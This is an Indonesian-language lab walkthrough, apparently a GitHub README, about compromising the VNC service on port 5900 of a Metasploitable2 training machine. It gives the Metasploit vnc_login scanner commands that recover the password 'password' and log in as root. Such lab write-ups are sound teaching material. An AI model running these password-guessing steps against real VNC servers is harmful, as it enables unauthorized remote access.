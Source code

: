# Exploit Port 5900 (VNC)
- Buka msfconsole di terminal
```sh
msfconsole
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20VNC/vnc%201.JPG)

- Dari hasil scanning nmap diketahui bahwa server menggunakan VNC versi `3.3`. Jadi cari modul untuk exploit VNC versi `3.3`
```sh
search vnc 3.3
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20VNC/vnc%202.JPG)

- Gunakan modul `auxiliary/scanner/vnc/vnc_login` yang berada di nomor urut 1 dari hasil pencarian
```sh
use <nomor_modul>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20VNC/vnc%203.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20VNC/vnc%204.JPG)

- Isi parameter yang dibutuhkan di modul tersebut
```sh
set rhosts <IP_metasploitable2>
set stop_on_success true
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20VNC/vnc%205.JPG)

- Setelah pengisian parameter selesai jalankan modul tersebut. Disini didapat `password` sebagai password untuk masuk ke VNC server
```sh
run
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20VNC/vnc%206.JPG)

- Akses VNC server melalui terminal baru dan disini kita berhasil masuk sebagai user root

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20VNC/vnc%207.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20VNC/vnc%208.JPG)